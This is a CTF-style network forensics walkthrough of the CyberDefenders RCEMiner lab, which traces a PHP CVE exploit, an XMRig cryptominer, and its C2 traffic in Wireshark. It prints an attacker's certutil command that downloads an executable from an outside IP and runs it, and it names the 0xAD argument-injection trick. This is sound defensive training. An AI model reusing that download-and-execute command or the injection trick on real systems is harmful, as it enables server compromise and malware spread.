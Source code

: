 ```yaml
---
title: RCEMiner Lab Walkthrough
date: '2025-02-02'
tags: ['cyberdefenders', 'walkthroughs', 'wireshark', 'network traffic analysis']
draft: false
summary: Step-by-step walkthrough of CyberDefenders Network Forensics Lab RCEMiner
images: ['']
layout: PostSimple
---
```


This is a **medium** level **network forensic** lab by **CyberDefenders**. You can complete your analysis using either **Wireshark** or **Zui** by Brim if you prefer Zeek. Start by reading the scenario in the above image and then proceed to capture flags.

![RCEMiner](/static/images/RCEMiner/background.png)

<TOCInline toc={props.toc} asDisclosure />

### Q1 To identify the entry point of the attack and prevent similar breaches in the future, it’s crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?

- On performing a quick search on Google. I was able to find out CVE number of the vulnerability. It corresponds to a crypto mining malware called XMRig ![Q1](/static/images/RCEMiner/Q1.png)
- Malware coming from this family is used to mine Monero (XMR) crypto currency. If you want to know more, I'm adding a link which includes reports, IOCs and yara rules [CoinMiner](https://bazaar.abuse.ch/sample/01c9940b468ce2a58f2bc52f5c8b7d0310451c994d798879ff653d92fbaf8719/#intel)

### Q2 A specific Unicode character is used in the exploit to manipulate how the server interprets command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?

- After visiting the first link mentioned in the last screenshot. We can see that `0xAD`unicode character being used in the exploit. You can verify by visiting [here](https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure) ![Q2](/static/images/RCEMiner/Q2.png)

### Q3 The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker’s script?

- We should check if any clear text communication took place between the attacker and the victim's machine. Most of the times, at least in this scenario data is sent over `application/x-www-form-urlencoded` or using `multipart/form-data`. You can confirm this by going to `Statistics -> Protocol Hierarchy` ![Q3](/static/images/RCEMiner/Q3.png)
- From the above screenshot we know that cleartext communication is there. Let's add the filter `urlencoded-form`. Follow the `HTTP Stream` of first frame ![Q3-1](/static/images/RCEMiner/Q3-1.png)
- You should end up finding the output of the command used by the attacker to find out about server's exact model of CPU. Remove binary spaces and you'll be left with `Intel(R) Core(TM) i7-6700HQ` ![Q3-2](/static/images/RCEMiner/Q3-2.png)

### Q4 Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?

- I started by searching for the `Start-Process` Powershell method which is commonly used by attackers to run something with super user privileges. On following the `HTTP Stream` on first packet ![Q4](/static/images/RCEMiner/Q4.png)
- We could see that the attacker executed a command which starts a process `2.exe` with root privileges ![Q4-1](/static/images/RCEMiner/Q4-1.png)

### Q5 After compromising the server, the malware used it to launch a massive number of HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?

- On querying for `HTTP` packets. We can see that so many requests with `index/think\app` being common in them ![Q5](/static/images/RCEMiner/Q5.png)
- On performing a quick search it turns out that the framework being exploited here is a vulnerable version of `ThinkPHP` ![Q5-1](/static/images/RCEMiner/Q5-1.png)

### Q6 The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?

- Twitter, IRC, HTTPs, DNS are commonly used by attackers for C2. Most try to blend in as much as possible. It helps attackers avoid detection and sometimes this makes it quite challenging for many of us to notice at first sight.
- Start by opening up `MITRE ATT&CK` Enterprise Framework which includes all the MITRE's TTPs or common methods used by the attackers to carry out their malicious activities. Move to `Command and Control` section, you'll end up seeing a page like this ![Q6](/static/images/RCEMiner/Q6.png)
- Since the question asks specifically for the MITRE C2 Technique including its sub technique used for communication using DNS queries. Our flag should be `T1071.004` in this scenario ![Q6-1](/static/images/RCEMiner/Q6-1.png)

### Q7 Identifying where the malware could be stored on a compromised system is crucial for ensuring the complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?

- Query -> `http contains "exe" and http.request.method == POST`
- Using the above query, we can analyze the POST request in each packet. You will end up with one common malicious POST Request being made in most of the HTTP requests ![Q7](/static/images/RCEMiner/Q7.png)

```powershell
cmd.exe /c certutil -urlcache -split -f http://36.96.48.3:19490/spread.txt C:\ProgramData\spread.exe && C:\ProgramData\spread.exe
```

- `C:\ProgramData\spread.exe` is the exact location where this malware is being saved for future use or maintaining persistence. In real life scenario, we need to make sure that we eradicate it completely by removing any of its artifacts on our server.

### Q8 Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?

- I went to `Statistics -> Conversations` and then sorted ports in descending order. We can see many strange ports being used ![Q8](/static/images/RCEMiner/Q8.png)
- After examining traffic on port `19999` and `15502` I couldn't find any packet containing CPU runtime but when I started looking at traffic on port `9011` I was able to find the entire CPU statistics that were being transferred over port `9011` ![Q8-1](/static/images/RCEMiner/Q8-1.png)
- Our flag for this question would be IP address followed by its port number which is `218.244.58.70:9011`

### Q9 Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?

- We know from `Q1` the CVE of this Vulnerability and we also know that the attacker makes use of `XMRig` for mining `Monero`. I start by checking if any frame contains `XMRig` because it could be possible that the attacker uses another software for mining but here we could see `XMRig` being used. Follow `HTTP Stream` on any of the packet ![Q9](/static/images/RCEMiner/Q9.png)
- We could see mining software along with its version and that should be our last flag for this lab `XMRig/5.5.0` ![Q9](/static/images/RCEMiner/Q9-1.png)

Here's another great report if you want to check each IOC of this malware in detail. This malware is quite relevant in today's scenario of cybersecurity, you will commonly see it in top 10 or 20 of any.run trends. Check out analysis from [filescan.io](https://www.filescan.io/uploads/666c55d4910ce98966f9a44a/reports/3978492e-edf4-4757-96be-b7d94c06d67b/overview)

> If you've made this far, thank you for sticking by and congrats on completing this lab!
